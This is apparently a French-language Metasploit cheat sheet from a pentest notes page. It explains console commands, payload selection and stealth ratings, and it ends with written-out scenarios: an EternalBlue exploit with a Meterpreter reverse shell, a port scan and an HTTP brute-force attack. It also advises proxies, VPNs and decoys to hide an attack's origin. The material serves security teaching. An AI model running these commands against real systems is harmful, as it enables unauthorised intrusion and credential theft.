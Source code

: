 ```yaml
---
layout: default
title: "Metasploit"
---
```


#### Introduction

Metasploit est un framework open-source pour le développement et l'exécution d'exploits contre des systèmes distants. Il est conçu pour aider les professionnels de la sécurité à identifier et à exploiter les vulnérabilités dans les systèmes informatiques.

#### Installation de Metasploit

**Sous Linux (Debian/Ubuntu)**

```bash
sudo apt update
sudo apt install metasploit-framework
```

**Sous Windows**

Télécharge le programme d'installation depuis le site officiel de Metasploit et suis les instructions.

#### Démarrage de Metasploit

1.  **Lancer Metasploit Console**

    ```bash
    msfconsole
    ```

    * **Explication** : Lance la console interactive de Metasploit où tu peux exécuter des commandes, rechercher des exploits, et gérer des sessions.
    * **Discrétion** : N/A. Ce n'est pas un scan ou une attaque, donc la discrétion n'est pas un problème ici.

#### Commandes Principales de Metasploit

1.  **Recherche d'exploits**

    ```bash
    search <mot-clé>
    ```

    * **Explication** : Recherche des modules, des exploits, et des payloads correspondant au mot-clé spécifié.
    * **Discrétion** : N/A. Utilisé pour rechercher des modules, ne génère pas de trafic réseau visible.
2.  **Affichage des informations sur un exploit**

    ```bash
    info <nom_du_module>
    ```

    * **Explication** : Affiche les informations détaillées sur un module spécifique, y compris les options, les cibles, et les descriptions.
    * **Discrétion** : N/A. Information sur les modules, pas d'activité de scan ou d'exploitation.
3.  **Sélectionner un exploit**

    ```bash
    use <nom_du_module>
    ```

    * **Explication** : Sélectionne un module d'exploit pour l'utiliser dans Metasploit.
    * **Discrétion** : N/A. Cette commande sélectionne simplement un module pour une utilisation ultérieure.
4.  **Configurer les options de l'exploit**

    ```bash
    set <option> <valeur>
    ```

    * **Explication** : Configure les options nécessaires pour l'exploit, comme l'adresse IP cible et les paramètres spécifiques.
    * **Discrétion** : N/A. Configure les paramètres de l'exploit sans effectuer d'attaque réelle.
5.  **Afficher les options disponibles**

    ```bash
    show options
    ```

    * **Explication** : Affiche les options configurables pour le module actuel.
    * **Discrétion** : N/A. Affiche simplement les options configurables.
6.  **Lancer l'exploit**

    ```bash
    exploit
    ```

    * **Explication** : Lance l'exploit avec les options configurées. Peut essayer de pénétrer un système cible en exploitant une vulnérabilité.
    * **Discrétion** : Faible à moyenne. Peut être détecté par des IDS/IPS et générer des alertes.
7.  **Afficher les sessions ouvertes**

    ```bash
    sessions
    ```

    * **Explication** : Liste toutes les sessions ouvertes avec les systèmes compromis.
    * **Discrétion** : N/A. Gestion des sessions après exploitation.
8.  **Interagir avec une session**

    ```bash
    sessions -i <id_de_session>
    ```

    * **Explication** : Permet d'interagir avec une session active pour contrôler le système compromis.
    * **Discrétion** : Faible. Activité sur le système cible, potentiellement détectée par des systèmes de surveillance.

#### Modules et Payloads

1.  **Rechercher des modules**

    ```bash
    search <type:exploit> <mot-clé>
    ```

    * **Explication** : Recherche des exploits ou des modules spécifiques en fonction du type et du mot-clé.
    * **Discrétion** : N/A. Utilisé pour rechercher des modules, ne génère pas de trafic réseau visible.
2.  **Rechercher des payloads**

    ```bash
    search <type:payload> <mot-clé>
    ```

    * **Explication** : Recherche des payloads disponibles correspondant au mot-clé spécifié.
    * **Discrétion** : N/A. Recherches internes pour les payloads, pas d'activité externe.
3.  **Configurer un payload**

    ```bash
    set PAYLOAD <nom_du_payload>
    ```

    * **Explication** : Configure le payload à utiliser avec l'exploit sélectionné.
    * **Discrétion** : N/A. Configure les options pour le payload.
4.  **Afficher les payloads disponibles**

    ```bash
    show payloads
    ```

    * **Explication** : Affiche une liste des payloads disponibles pour le module d'exploit actuel.
    * **Discrétion** : N/A. Affiche les options disponibles, pas de trafic réseau.

#### Options Avancées

1.  **Utilisation de Metasploit avec des proxys**

    ```bash
    setg Proxies http://<proxy_address>:<port>
    ```

    * **Explication** : Configure Metasploit pour utiliser un proxy HTTP, ce qui peut aider à masquer l'origine des attaques.
    * **Discrétion** : Haute. Masque l'origine des requêtes en utilisant un proxy.
2. **Utilisation de VPN pour masquer l'origine**
   * **Explication** : En utilisant Metasploit via un VPN, tu peux masquer l'origine de ton activité.
   * **Discrétion** : Très haute. Utiliser un VPN ajoute une couche de dissimulation.
3. **Utilisation de decoy hosts**
   * **Explication** : Lorsque tu réalises des scans, utiliser des hôtes leurres pour masquer l'origine réelle.
   * **Discrétion** : Très haute. Les leurres compliquent la détection de la source réelle des activités.

#### Exemples de Scénarios

1.  **Exploitation d’une vulnérabilité connue**

    ```bash
    use exploit/windows/smb/ms17_010_eternalblue
    set RHOSTS 192.168.1.10
    set PAYLOAD windows/x64/meterpreter/reverse_tcp
    set LHOST 192.168.1.5
    exploit
    ```

    * **Explication** : Utilise l'exploit EternalBlue pour exploiter une vulnérabilité SMB sur une machine Windows, avec un payload Meterpreter pour la connexion inverse.
    * **Discrétion** : Faible. Les exploits bien connus comme EternalBlue peuvent être détectés par des IDS/IPS.
2.  **Scan de port et identification du système d’exploitation**

    ```bash
    use auxiliary/scanner/portscan/tcp
    set RHOSTS 192.168.1.10
    run
    ```

    * **Explication** : Utilise un module de scan de ports pour identifier les ports ouverts sur une cible.
    * **Discrétion** : Moyenne. Le scan de ports peut être détecté et générer des alertes.
3.  **Utilisation de Metasploit pour une attaque par force brute**

    ```bash
    use auxiliary/scanner/http/http_login
    set RHOSTS 192.168.1.10
    set TARGETURI /login
    set USER_FILE /path/to/usernames.txt
    set PASS_FILE /path/to/passwords.txt
    run
    ```

    * **Explication** : Utilise un module de force brute pour tester des combinaisons de noms d’utilisateur et mots de passe sur une interface de connexion HTTP.
    * **Discrétion** : Faible. Les tentatives de connexion par force brute peuvent facilement être détectées par des systèmes de surveillance.
